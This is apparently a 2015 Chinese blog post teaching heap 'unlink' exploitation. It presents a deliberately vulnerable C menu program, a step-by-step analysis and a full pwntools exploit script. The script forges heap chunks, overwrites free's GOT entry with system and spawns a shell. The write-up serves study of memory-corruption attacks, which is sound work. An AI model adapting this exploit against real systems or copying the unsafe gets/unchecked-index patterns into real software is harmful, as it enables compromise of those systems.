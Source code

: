 ```yaml
---
layout: post
title: "unlink"
date: 2015-08-22 07:21:46 -0700
comments: true
categories: 
---
```


#unlink 的利用

源程序源自http://drops.wooyun.org/binary/7958
##0x00	漏洞利用程序
	#include <stdio.h>
	#include <stdlib.h>
	#include <string.h>
	char *a[2010];
	int i=2000;
	void Malloc(void);
	void Free(void);
	void Edit(void);
	void Print(void);

	int main(void)
	{
		char c;
		setbuf(stdout,NULL);
		while (1)
		{
			printf("What is you choose?\n");
			scanf("%c",&c);
			getchar();
			if(c == 'm')
			{
				Malloc();
			}
			else if(c == 'f')
			{
				Free();
			}
			else if(c == 'e')
			{
				Edit();
			}
			else if(c == 'p')
			{
				Print();
			}
			else
			{
				break;
			}
		}
		printf("end\n");
	}

	void Malloc(void)
	{
		int q;
		printf("now i malloc a heap\n");

		printf("enter the size of chunk\n");		
		scanf("%d",&q);
		getchar();

		a[i] = (char *)malloc(q);
		printf("enter you code\n");
		gets(a[i]);
		i++;
		printf("OK!\n");
	}

	void Free(void)
	{
		int j;
		//printf("now i free a heap\n");
		printf("which heap do you want to free?\n");
		
		scanf("%d",&j);
		getchar();

		free(a[j+2000]);
		printf("Ok!\n");
	}

	void Edit(void)
	{
		int j;
		printf("which heap do you want to edit?\n");
		scanf("%d",&j);
		getchar();
		gets(a[j+2000]);
		printf("Ok!\n");
	}
	void Print(void)
	{
		int j;
		printf("which heap do you wnat to show?\n");
		scanf("%d",&j);
		getchar();
		printf("%s\n",a[j+2000]);
		printf("end\n");
	}

##0x01	分析
存在double free漏洞，
0.先malloc两个chunk
1.后free这两个chunk
2.在申请一个比第一个大的chunk并溢出，在第一个chunk头后伪造一个chunk使fd  = ptr - 0xc, bk = ptr - 0x8, 修改chunk2的pre_size和size欺骗free
3.在申请一个chunk，来存放/bin/bash
4.free 第二个chunk,造成ulink,并使 *ptr = ptr - 0xc
5.再对ptr写入就可将ptr改为任意地址，这里改为free@got.plt
6.使用print功能打印出got.plt表
7.在将计算好的地址覆写got.plt，将free改为system地址，再free chunk4就可以得到shell

这这里我是用本地libc来实验，将__isoc99_scanf改为了scanf 

##0x02	payload

以下是payload

	from pwn import *
	from binascii import *


	def log(m):
		print "[+]" + m

	free = 0x00073880
	system = 0x0003B160
	scanf_99 = 0x0005E040 

	r = process("./a.out")
	#r = remote("127.0.0.1", 9999)

	log("malloc1")
	print r.readuntil("?\n")
	r.send("m\n")
	print r.readuntil("chunk\n")
	r.send("504\n")
	print r.readuntil("code\n")
	r.send("aaa\n")

	log("malloc2")
	print r.readuntil("?\n")
	r.send("m\n")
	print r.readuntil("chunk\n")
	r.send("512\n")
	print r.readuntil("code\n")
	r.send("aaa\n")


	log("free1")
	print r.readuntil("?\n")
	r.send("f\n")
	print r.readuntil("free?\n")
	r.sendline("0")

	log("free2")
	print r.readuntil("?\n")
	r.send("f\n")
	print r.readuntil("free?\n")
	r.sendline("1")

	log("malloc 3")
	print r.readuntil("?\n")
	r.send("m\n")
	print r.readuntil("chunk\n")
	r.send("768\n")
	print r.readuntil("code\n")
	data  = p32(0x00000000)  + p32(0x000001f9) + p32(0x0804bfc0 - 0xc) + p32(0x0804bfc0 - 0x8) + 'a'*(0x200-24) + p32(0x000001f8) + p32(0x00000108)
	data += '\n'
	r.send(data)

	log("malloc 4")
	print r.readuntil("?\n")
	r.send("m\n")
	print r.readuntil("chunk\n")
	r.send("20\n")
	print r.readuntil("code\n")
	r.sendline("/bin/bash")


	log("free first again")
	print r.readuntil("?\n")
	r.send("f\n")
	print r.readuntil("free?\n")
	r.sendline("1")

	log("edit")
	print r.readuntil("?\n")
	r.send("e\n")
	r.sendline("0")
	print r.readuntil("edit?\n")
	r.sendline("aaaabbbbcccc\x14\xa0\x04\x08")

	log("print")
	print r.readuntil("?\n")
	r.sendline("p")
	print r.readuntil("show?\n")
	r.sendline("0")

	recvdata = r.readuntil("end\n")
	print len(recvdata)

	free_addr = 0xffffffff & u32( recvdata[0 : 4] )  
	free_addr = p32(system - free + free_addr )
	print b2a_hex(free_addr)
	getchar = p32( 0xffffffff & u32( recvdata[4 : 8] ) ) 
	print b2a_hex(getchar) 
	chk = p32( 0xffffffff & u32( recvdata[8 : 12] ) ) 
	print b2a_hex(chk)
	malloc = p32( 0xffffffff & u32( recvdata[12 : 16] ) ) 
	print b2a_hex(malloc)
	puts = p32( 0xffffffff & u32( recvdata[16 : 20] ) ) 
	print b2a_hex(puts)
	gmonstart = p32( 0xffffffff & u32( recvdata[20 : 24] ) ) 
	print b2a_hex(gmonstart)
	libmain = p32( 0xffffffff & u32( recvdata[24 : 28] ) ) 
	print b2a_hex(libmain)
	scanf = p32( scanf_99 + u32( recvdata[0: 4] ) - free ) 
	print b2a_hex(scanf)


	data = free_addr + getchar + chk + malloc + puts + gmonstart + libmain + scanf

	log("edit")
	print r.readuntil("choose?\n")
	r.send("e\n")
	print r.readuntil("edit?\n")
	r.sendline("0")
	r.sendline(data)

	log("edit")
	print r.readuntil("choose?\n")
	r.send("f\n")
	print r.readuntil("free?\n")
	r.sendline("3")

	r.interactive()
